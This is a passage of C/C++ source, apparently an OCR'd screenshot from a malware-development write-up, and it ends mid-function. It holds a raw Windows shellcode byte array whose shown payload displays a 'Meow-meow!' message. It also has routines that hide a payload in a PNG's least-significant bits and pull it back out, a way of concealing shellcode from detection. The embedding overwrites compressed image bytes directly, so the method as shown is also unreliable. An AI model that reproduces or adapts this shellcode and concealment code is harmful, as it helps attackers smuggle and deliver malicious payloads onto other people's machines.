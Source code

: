 ```cpp
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

#define PNG_HEADER_SIZE 8
#define MAX_PAYLOAD_SIZE 1024  // max payload size to embed

// function to hide payload inside PNG using LSB
void hide_payload_in_png(const char* input_png, const char* output_png, unsigned char* payload, size_t payload_size) {
  FILE* in = fopen(input_png, "rb");
  FILE* out = fopen(output_png, "wb");

  if (!in || !out) {
    printf("failed to open input/output files. :(\n");
    return;
  }

  // copy PNG header
  unsigned char header[PNG_HEADER_SIZE];
  fread(header, 1, PNG_HEADER_SIZE, in);
  fwrite(header, 1, PNG_HEADER_SIZE, out);

  // embed payload in LSB of image data
  size_t bit_index = 0, byte;
  while ((byte = fgetc(in)) != EOF) {
    if (bit_index / 8 < payload_size) {
      byte = (byte & 0xFE) | ((payload[bit_index / 8] >> (7 - (bit_index % 8))) & 1);
      bit_index++;
    }
    fputc(byte, out);
  }

  fclose(in);
  fclose(out);
  printf("payload hidden inside PNG successfully: %s :)\n", output_png);
}

// function to extract payload from PNG
void extract_payload_from_png(const char* png_file, unsigned char* extracted_payload, size_t payload_size) {
  FILE* in = fopen(png_file, "rb");
  if (!in) {
    printf("failed to open PNG file for extraction. :(\n");
    return;
  }

  fseek(in, PNG_HEADER_SIZE, SEEK_SET);  // skip PNG header

  // extract payload from LSB
  size_t bit_index = 0, byte;
  while ((byte = fgetc(in)) != EOF && bit_index / 8 < payload_size) {
    extracted_payload[bit_index / 8] |= (byte & 1) << (7 - (bit_index % 8));
    bit_index++;
  }

  fclose(in);
```
